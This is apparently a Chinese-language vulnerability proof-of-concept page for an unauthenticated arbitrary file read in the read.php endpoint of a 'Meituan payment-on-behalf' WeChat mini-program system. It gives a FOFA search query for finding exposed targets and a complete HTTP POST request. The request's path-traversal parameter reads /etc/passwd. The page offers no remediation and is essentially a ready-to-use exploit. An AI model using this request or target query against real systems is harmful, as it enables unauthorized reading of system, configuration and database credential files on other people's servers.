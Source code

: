 # 美团代付微信小程序系统read.php任意文件读取漏洞

美团代付微信小程序系统 read.php 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

## fofa

```javascript
body="/h5/static/js/chunk-vendors.js"
```

## poc

```javascript
POST /static/ueditor22/_test/tools/br/read.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

name=../../../../../../../../../etc/passwd
```

![image-20241114142630011](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411141426075.png)